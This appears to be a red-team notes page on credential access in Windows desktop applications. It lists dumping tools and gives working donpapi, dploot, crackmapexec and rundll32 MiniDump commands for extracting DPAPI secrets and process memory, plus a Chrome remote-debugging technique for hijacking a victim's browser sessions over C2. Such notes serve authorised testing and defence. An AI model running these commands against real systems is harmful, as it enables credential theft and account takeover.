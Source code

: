 ```yaml
---
title: Application Credential Access
---
```


The following tools can be used to [[notes/mitre-attack/credential-access|access credentials]] from various [[notes/windows/index]] desktop applications.
Many of them are protected by [[notes/windows/dpapi-dump|DPAPI]].

Tool | Language | Access | Supported Applications
-----|----------|--------|-----------------------
[[notes/tools/donpapi]] | Python | Remote | Credential Manager, Vault, Certificates, Internet Explorer, Chrome, Edge, Firefox, WiFi, VNC, mRemoteNG
[[notes/tools/dploot]] | Python | Remote | Credential Manager, Vault, Certificates, Remote Desktop Connection Manager, Chrome, Edge, Firefox, WiFi
[[notes/tools/crackmapexec]] | Python | Remote | Uses dploot
[[notes/tools/lazagne]] | Python | Local | Chrome, Edge, Firefox, Outlook, Thunderbird, FileZilla, KeePass, WinSCP and many more
[SharpChromium](https://github.com/djhohnstein/SharpChromium) | C# | Local | Chome, Edge
[ThunderFox](https://github.com/V1V1/SharpScribbles/) | C# | Local | Firefox, Thunderbird
[offline_address_book_extractor.py](https://github.com/api0cradle/RedTeamScripts/blob/main/offline_address_book_extractor.py) | Pyhton | Offline | Outlook address book parser
[OutlookSpy](https://github.com/acole76/OutlookSpy) | C# | Local | Outlook
[SessionGopher](https://github.com/Arvanaghi/SessionGopher) | PowerShell | Local | WinSCP, PuTTY, FileZilla, RDP
[strings2](https://github.com/glmcdona/strings2) + [ProcessStringExtractor](https://gist.github.com/LuemmelSec/3f2c4b7642dc7b2ae63601ed02ec3db5) | C + PowerShell | Local | generic, find patterns in process memory
[PMP-Decrypter](https://github.com/LuemmelSec/PMP-Decrypter) | C# | Local | Patch My PC
[dumpscan](https://github.com/daddycocoaman/dumpscan) | Python | Remote | Find certificates in Minidumps

Dump DPAPI-protected secrets remotely and decrypt them with the domain backup key, the users password or NT hash.

=== "[[notes/tools/donpapi]]"
    Worked, but crashed in the end.

    ~~~ bash
    donpapi -o ./ws01/dpapi -pvk ./corp.pvk -local_auth administrator:'passw0rd'@ws01.corp.local
    donpapi -o ./ws01/dpapi -credz ./passwords.txt -local_auth administrator:'passw0rd'@ws01.corp.local
    donpapi -o ./ws01/dpapi -credz ./nthashse.txt -local_auth administrator:'passw0rd'@ws01.corp.local
    ~~~

=== "[[notes/tools/dploot]]"
    Failed during testing.

    ~~~ bash
    dploot triage -dump-all -export-triage ./ws01/dpapi -pvk ./corp.pvk -u administrator -p 'passw0rd' ws01.corp.local && dploot machinetriage -dump-all -export-triage ./ws01/dpapi -pvk ./corp.pvk -u administrator -p 'passw0rd' ws01.corp.local
    dploot triage -dump-all -export-triage ./ws01/dpapi -passwords ./passwords.txt -u administrator -p 'passw0rd' ws01.corp.local && dploot machinetriage -dump-all -export-triage ./ws01/dpapi -passwords ./passwords.txt -u administrator -p 'passw0rd' ws01.corp.local
    dploot triage -dump-all -export-triage ./ws01/dpapi -nthashes ./nthashes.txt -u administrator -p 'passw0rd' ws01.corp.local && dploot machinetriage -dump-all -export-triage ./ws01/dpapi -nthashes ./nthashes.txt -u administrator -p 'passw0rd' ws01.corp.local
    ~~~

=== "[[notes/tools/crackmapexec]]"
    As unprivileged user dump your own secrets, as local admin dump secrets from every user whose password is stored in CMEDB or as domain admin utilizing the domain backup keys.
    Uses [[notes/tools/dploot]] under the hood ([source](https://twitter.com/mpgn_x64/status/1627638010203316227)).

    ~~~ bash
    crackmapexec smb ws01.corp.local --local-auth -u administrator -p passw0rd --dpapi passwords && crackmapexec smb ws01.corp.local --local-auth -u administrator -p passw0rd --dpapi cookies
    ~~~

Untested tools:

- [hekatomb](https://github.com/processus-thief/hekatomb), dumps domain backup keys, downloads credential files from all domain computers, decrypts the files

References:

- [Extracting Encrypted Credentials from Common Tools](http://web.archive.org/web/20230816141251/https://scribe.rip/@xm-cyber/extracting-encrypted-credentials-from-common-tools-ceb83e7304ce), WinSCP, RoboMongo, MobaXterm
- [Analyzing LastPass, part 1](http://web.archive.org/web/20221012111523/https://www.mdsec.co.uk/2022/10/analysing-lastpass-part-1/)
- [Relaying YubiKeys](http://web.archive.org/web/20220919230832/https://cube0x0.github.io/Relaying-YubiKeys/)

## Chrome Remote Debugging

Start Chrome in headless and remote debugging mode.

~~~ bat
"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --remote-debugging-port=9222 --remote-debugging-address=127.0.0.1 --user-data-dir=%TEMP%\headless.profile --ignore-certificate-errors about:blank --headless
"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --remote-debugging-port=9222 --remote-debugging-address=127.0.0.1 --user-data-dir=%TEMP%\headless.profile --ignore-certificate-errors about:blank --headless
~~~

Reverse forward the debug port over your C2.

Open Chrome on your machine and go to `chrome://inspect`.
Now you can browse the web in the name of your victim.

Untested tools:

- [WhiteChocolateMacademiaNut](https://github.com/slyd0g/WhiteChocolateMacademiaNut), dumps cookies from debug port of Chromium-based browsers

References:

- [Debugging Cookie Dumping Failures with Chromiums Remote Debugger](http://web.archive.org/web/20230721071951/https://scribe.rip/@slyd0g/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f)
- [twitter.com/an0n_r0/status/1670007830072500225](https://twitter.com/an0n_r0/status/1670007830072500225)
- [Headless Remote Chrome Debugging](https://gist.github.com/NotMedic/b1ab7809eea94cc05513905b26964663)
- [Stalking inside of your Chromium Browser](https://web.archive.org/web/20221202231214/https://scribe.rip/@specterops/stalking-inside-of-your-chromium-browser-757848b67949)

# Unsaved Notepad

Dump the content of an open `notepad.exe` window that is not written to a file ([source](https://twitter.com/NinjaParanoid/status/1695682038593110193)):

~~~ bat
rundll32.exe comsvcs.dll MiniDump %PID% .\notepad.log full
strings.exe --encoding=l .\notepad.log
~~~

# Notepad++ Backups

Inspect files in `%USERPROFILE%\AppData\Roaming\Notepad++\backup`.

# ProtonPass

References:

- [ProtonPass: Auch nach Sperrung des Passwortspeichers verbleiben Nutzername/Passwort im Hauptspeicher](https://www.kuketz-blog.de/protonpass-auch-nach-sperrung-des-passwortspeichers-verbleiben-nutzername-passwort-im-hauptspeicher/), MiniDump contains plain passwords even if password manager is locked

